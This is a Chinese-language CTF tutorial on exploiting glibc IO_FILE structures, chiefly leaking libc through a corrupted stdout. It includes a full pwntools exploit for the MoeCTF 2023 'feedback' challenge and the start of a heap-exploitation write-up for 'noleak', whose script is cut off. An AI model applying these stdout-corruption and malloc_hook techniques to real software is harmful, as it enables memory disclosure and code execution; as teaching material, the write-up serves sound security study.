# IO FILE

本文章参考

[ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/io-file/introduction/)

[gets大蛇的博客](http://www.getspwn.xyz/)

---

# 简述

我们这里首先展示一下对于 FILE 结构的大体框架



我们这里简述一下另外两个，也就是 IO_FILE_plus和IO_jump_t

```c
struct _IO_FILE_plus
{
    _IO_FILE    file;
    IO_jump_t   *vtable;
}

```

```c
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);               // 占位符，没有实际功能
    JUMP_FIELD(size_t, __dummy2);              // 占位符，没有实际功能
    JUMP_FIELD(_IO_finish_t, __finish);        // 完成操作的函数指针
    JUMP_FIELD(_IO_overflow_t, __overflow);    // 写缓冲区溢出处理函数指针
    JUMP_FIELD(_IO_underflow_t, __underflow);  // 读缓冲区欠载处理函数指针
    JUMP_FIELD(_IO_underflow_t, __uflow);      // 读缓冲区欠载处理函数指针
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);  // 处理推回字符的函数指针
    JUMP_FIELD(_IO_xsputn_t, __xsputn);        // 写入多个字符的函数指针
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);        // 读取多个字符的函数指针
    JUMP_FIELD(_IO_seekoff_t, __seekoff);      // 按偏移量移动文件指针的函数指针
    JUMP_FIELD(_IO_seekpos_t, __seekpos);      // 移动文件指针到指定位置的函数指针
    JUMP_FIELD(_IO_setbuf_t, __setbuf);        // 设置缓冲区的函数指针
    JUMP_FIELD(_IO_sync_t, __sync);            // 同步文件流的函数指针
    JUMP_FIELD(_IO_doallocate_t, __doallocate);// 分配缓冲区的函数指针
    JUMP_FIELD(_IO_read_t, __read);            // 读取数据的函数指针
    JUMP_FIELD(_IO_write_t, __write);          // 写入数据的函数指针
    JUMP_FIELD(_IO_seek_t, __seek);            // 移动文件指针的函数指针
    JUMP_FIELD(_IO_close_t, __close);          // 关闭文件流的函数指针
    JUMP_FIELD(_IO_stat_t, __stat);            // 获取文件状态的函数指针
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);  // 显示可用字符数的函数指针
    JUMP_FIELD(_IO_imbue_t, __imbue);          // 设置区域设置信息的函数指针
};
```

这两个我放在这里，但今天不会进行细讲

我们主要来讲解IO_FILE部分

---

# IO_FILE

IO_FILE结构体，是标准 C库中的一个数据结构，用于管理、表示文件流。我们只要控制了IO_FILE，就能有很多我们之前从没想过的玩法，达成我们想要达到的效果(包括但不限于调用system)

我们来看一下 IO_FILE结构体的源码

‍

```c
struct _IO_FILE {
  int _flags;       /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
#if defined _G_IO_IO_FILE_VERSION && _G_IO_IO_FILE_VERSION == 0x20001
  _IO_off64_t _offset;
# if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
# else
  void *__pad1;
  void *__pad2;
  void *__pad3;
  void *__pad4;

  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
#endif
};
```

有点看不懂？或者是不想看英文？

没事，这里直接借用gets佬的翻译(其实你认真看看注释也差不太多)

```c
    struct _IO_FILE {
        int _flags;                // 文件状态标志（高位是 _IO_MAGIC，其余是标志位）
        char* _IO_read_ptr;        // 读缓冲区当前读取位置
        char* _IO_read_end;        // 读缓冲区结束位置
        char* _IO_read_base;       // 读缓冲区基地址
        char* _IO_write_base;      // 写缓冲区基地址
        char* _IO_write_ptr;       // 写缓冲区当前写入位置
        char* _IO_write_end;       // 写缓冲区结束位置
        char* _IO_buf_base;        // 缓冲区基地址
        char* _IO_buf_end;         // 缓冲区结束位置
        char *_IO_save_base;       // 保存缓冲区基地址
        char *_IO_backup_base;     // 备份缓冲区基地址
        char *_IO_save_end;        // 保存缓冲区结束位置
        struct _IO_marker *_markers; // 标记指针，用于跟踪缓冲区的读写位置
        struct _IO_FILE *_chain;   // 链接到下一个文件结构，用于文件链表
        int _fileno;               // 文件描述符
        int _flags2;               // 额外的文件状态标志
        __off_t _old_offset;       // 文件偏移（旧版，已弃用）
        unsigned short _cur_column; // 当前列号（用于支持列计算）
        signed char _vtable_offset; // 虚函数表偏移量
        char _shortbuf[1];         // 短缓冲区（用于小量数据的快速操作）
        _IO_lock_t *_lock;         // 文件锁（用于多线程环境下的文件流操作保护）
    };
```

FILE结构会通过 _chain域 形成一个链表，其头部是一个全局变量 _IO_list_all，后面链接的就是其他的FILE结构

fastbin unsortedbin

全局变量->....->end

IO_FILE

_IO_list_all（quanjubianl）-> FILE -> FILE2 ...

FILE

‍

linux 程序的输入、输出都依赖FILE结构

> 这里补充一下，在一般的题目，或是程序中，stdin stdout stderr都是会被初始化的，这三部分就是IO_FILE的结构，我们的利用会基于它们。
>
> 一般的程序中，链表起始大致是这个样子(这里借用了gets佬借用的hollk师傅的图片)
>
> 
>
> 创建了一个FILE结构
>
> chain-> FILE_addr

stdin、stdout、stderr， 这三个部分会在程序启动时初始化。也就是说我们只要运行程序，就可以找到这三个部分。其位置位于libc中，也就是说我们需要泄露libc地址，才能找到它们。

当然，其实不泄漏也是可以找到的，这三个部分会在 .bss段上留下数据

---

# 利用stdout 泄露 libc地址

我们这里不对各个函数的调用过程进行讲述。

首先，我们先补充一个知识点

> # 缓冲区
>
> 缓冲区是一块用于临时存储数据的内存区域。
>
> ---
>
> 比如我们使用scanf函数，其实际上是先将数据写入输入缓冲区(其由stdin管理)，之后再将其取出数据并放入对应的地址。
>
> 比如，我们输入 `hello\n`​ ，这些字符就会被暂存至输入缓冲区，随后会按照顺序依次写入相应的地址。在我们读取字符串读取到`\x00`​或`\n`时停止读取，并将其留在缓冲区中。
>
> 当然，对于 `%23s`这类格式化输入，其实不论输入多少都会写进缓冲区，但是我们在scanf时只会取前23个字符。(这里实际上也有利用的空间，我们在这里暂且不讲)
>
> ---
>
> 同理可得，输出缓冲区是由 stdout 管理。
>
> 这里以puts函数为例，我们在想执行`puts("Hello")`​的时候，puts函数会接收到需要输出的字符串，随后会将字符串连带着`\n`一起写入标准输出缓冲区中。
>
> 在默认的行缓冲模式里，puts函数写入的字符串在遇到换行符时，会触发输出缓冲区的刷新操作。其刷新会将缓冲区中的数据写入到实际的输出设备中。
>
> 在这里我们就抓住了这个重点： **刷新缓冲区**
>
> --> 只要刷新缓冲区，就会输入缓冲区里的数据
>
> 在标准的输出缓冲区中，有三种模式：
>
> - 行缓冲模式
> - 全缓冲模式
> - 无缓冲模式
>
> 不同的模式对puts的行为会有不同的影响。
>
> 这里不多叙述，一般我们遇到的都是行缓冲模式，这也是默认的、pwn题遇到的模式。
>
> 在这个缓冲模式下，当遇到换行符`\n`时就会发生缓冲区刷新
>
> 除了缓冲模式，缓冲区的刷新也可以在一下几个情况发生时发生
>
> - 缓冲区满：也就是缓冲区写满。当缓冲区满时，系统会自动将缓冲区的数据写入实际输出设备，并清空缓冲区
> - 手动刷新：也就是调用fflush()函数来手动刷新缓冲区<sup>（fflush(FILE* stream)）</sup>
> - 正常退出：当程序正常退出时，所有打开的文件流都会自动的刷新缓冲区

我们来重新回顾一下IO_FILE的结构和作用，这里放上重要的几个指针

```c
char* _IO_read_ptr;        // 读缓冲区当前读取位置
char* _IO_read_end;        // 读缓冲区结束位置
char* _IO_read_base;       // 读缓冲区基地址
char* _IO_write_base;      // 写缓冲区基地址
char* _IO_write_ptr;       // 写缓冲区当前写入位置
char* _IO_write_end;       // 写缓冲区结束位置
char* _IO_buf_base;        // 缓冲区基地址
char* _IO_buf_end;         // 缓冲区结束位置
char *_IO_save_base;       // 保存缓冲区基地址
```

‍

我们这里介绍使用较多的字段。

我们这里设

- ​`_IO_write_base`为0x1000
- ​`_IO_write_end` 为0x1100

地址：

libc中指向函数的地址(vtable)

‍

那么，在一开始，我们的 `_IO_write_ptr`​与`_IO_write_base`相同，都为 0x1000

我们这时写入 0x10大小的数据，我们每写入一个字节， ptr 都会向后移动一个位置。

那么在最后刷新缓冲区的时候，会将 `_IO_write_base`​到 `_IO_write_ptr`之中的所有数据都输出出来。 (这里就存在这利用的空间了)

试想一下，我们如果此时将`_IO_write_base`​改为 0x500，而`_IO_write_ptr`不变呢？

那此时是否是只要刷新缓冲区，就会将 0x500到 0x1000之间的所有数据都打印出来？

这里面是否就会有我们的libc地址呢？

答案是肯定的

‍

到这里，就是stdout泄露libc的方法了。

> 这里再补充一个知识点，上面的结构体的第一个参数，flag标志位是有相应的规定的
>
> ```c
>     #define _IO_MAGIC 0xFBAD0000           /* Magic number 文件结构体的魔数，用于标识文件结构体的有效性 */
>     #define _OLD_STDIO_MAGIC 0xFABC0000    /* Emulate old stdio 模拟旧的标准输入输出库（stdio）行为的魔数 */
>     #define _IO_MAGIC_MASK 0xFFFF0000      /* Magic mask 魔数掩码，用于从 _flags 变量中提取魔数部分 */
>     #define _IO_USER_BUF 1                 /* User owns buffer; don't delete it on close. 用户拥有缓冲区，不在关闭时删除缓冲区 */
>     #define _IO_UNBUFFERED 2               /* Unbuffered 无缓冲模式，直接进行I/O操作，不使用缓冲区 */
>     #define _IO_NO_READS 4                 /* Reading not allowed 不允许读取操作 */
>     #define _IO_NO_WRITES 8                /* Writing not allowed 不允许写入操作 */
>     #define _IO_EOF_SEEN 0x10              /* EOF seen 已经到达文件结尾（EOF） */
>     #define _IO_ERR_SEEN 0x20              /* Error seen 已经发生错误 */
>     #define _IO_DELETE_DONT_CLOSE 0x40     /* Don't call close(_fileno) on cleanup. 不关闭文件描述符 _fileno，在清理时不调用 close 函数 */
>     #define _IO_LINKED 0x80                /* Set if linked (using _chain) to streambuf::_list_all. 链接到一个链表（使用 _chain 指针），用于 streambuf::_list_all */
>     #define _IO_IN_BACKUP 0x100            /* In backup 处于备份模式 */
>     #define _IO_LINE_BUF 0x200             /* Line buffered 行缓冲模式，在输出新行时刷新缓冲区 */
>     #define _IO_TIED_PUT_GET 0x400         /* Set if put and get pointer logically tied. 在输出和输入指针逻辑上绑定时设置 */
>     #define _IO_CURRENTLY_PUTTING 0x800    /* Currently putting 当前正在执行 put 操作 */
>     #define _IO_IS_APPENDING 0x1000        /* Is appending 处于附加模式（在文件末尾追加内容） */
>     #define _IO_IS_FILEBUF 0x2000          /* Is file buffer 是一个文件缓冲区 */
>     #define _IO_BAD_SEEN 0x4000            /* Bad seen 遇到错误（bad flag set） */
>     #define _IO_USER_LOCK 0x8000           /* User lock 用户锁定，防止其他线程访问 */
> ```
>
> 这里没什么好说的，你是极少只需要知道需要将flag字段改为 0xFBAD1800即可

## Feedback

接下来，我们使用

MoeCTF 2023 [feedback](assets/feedback-20250811184130-v59a1jz)进行第一次实战

我们首先看代码



首先初始化，之后执行read_flag函数，之后执行vuln函数



正常init



这里将flag读入到puts的函数地址加上 0x2DA5C的位置，之后关闭



发现比较，可以考虑整数溢出，去检查read_num函数



发现是完全没有负数检查，即这里可以直接整数溢出，达到数组越界的效果

‍



但可惜的是，我们并不能靠数组越界直接修改got表项进行劫持，这里的RELRO保护是全开的



‍

我们再看看text段其他的函数，比如这个read_str

简单的看出，传入的是一个指针

这意味着什么？

这意味着我们可以控制其指向的地址，之后随意向里面输入，只要大小小于0x48，且不存在换行符



再看print_feedback，这里用了puts。

还记得之前所说的吗？

puts会将字符串及一个换行符写入缓冲区，换行符会触发缓冲区刷新。

我们接着看

‍



再看看bss段，可以看到stdout、stdin、stderr规整的排布在这里，后面就跟着一个completed_8061和feedback_list。

也就是说，我们之前的数组溢出可以操控到stdout。

‍

再加上之前的一切的一切，是不是就都串联起来了？

我们的思路：

1. 开局利用整数溢出，获取到数组越界漏洞
2. 使用数组越界修改stdout结构体
3. 修改后触发缓冲区刷新，泄露libc地址
4. 再通过stdout泄露flag

exp如下

```python
from pwn import *
context.log_level = 'debug'

io = process('./feedback')
elf = ELF('./feedback')

def feedback(content):
    io.recvuntil(b'Which list do you want to write?')
    io.send(b'-8')
    io.recvuntil(b'Then you can input your feedback.')
    io.send(content)

#1
payload = flat([
	0xfbad1800,
	0,
	0,
	0
])
payload += b'\x00' + b'\n'

feedback(payload)  #stdout泄露libc

io.recvuntil(b'\x00'*8)
libc_base = u64(io.recv(6).ljust(8, b'\x00')) - 0x1EC980
success('libc_base: '+hex(libc_base))
puts_addr = libc_base + 0x1C3CA4


payload = flat([
	0xfbad1800,
	0,
	0,
	0,
	puts_addr +0x2DA5C,
	puts_addr +0x2DA5C +0x50,
	0,
	0,
	0
])
feedback(payload)   #stdout泄露flag


io.interactive()
```

这里是换了libc版本的，所以不太一样。

在本地打不太了，所以这里就不跑exp了

---

## Noleak

环境: Ubuntu16.04 libc2.23

这个才是真实实战能够遇到的，前面哪个你不太可能能遇到 😄

[noleak](file://E:\CTF赛题\noleak)

直接看代码



首先看delete

正常删除，没有利用点



之后看edit

edit 大小检查错误，有堆溢出漏洞，可以修改其他堆块

> 这里讲一下，可能你们没看出来
>
> edit函数这里使用的是strlen()获取大小，这导致如果我们一开始add的时候，如果填满该块，strlen将会超过该堆块，并持续寻找\x00,在没有找到\x00之前不会停止，这就导致其可能返回极大的值(但是我们一般将其当做offbyone看)



之后是add



之后是show函数，是假的



综上，这个题目存在一个offbyone漏洞，没有show函数

那么我们的思路也就能大概定下来了

1. 利用offbyone漏洞，实现unsortedbin与fastbin产生overleap
2. 再申请一个unsortedbin大小的堆块，使得新堆块与fastbin链上的freed chunk重叠，从而获得局部改写能力
3. 打stdout leak 获得libc地址
4. 再经典打malloc_hook拿shell

exp如下

```python
from pwn import *
import LibcSearcher
import sys

#Init Space
file = './noleak'
libc = ELF('./libc-2.23.so')
gdb_plugin = '/home/mindedness/pwn'

#=====================================================  
elf = ELF(file)
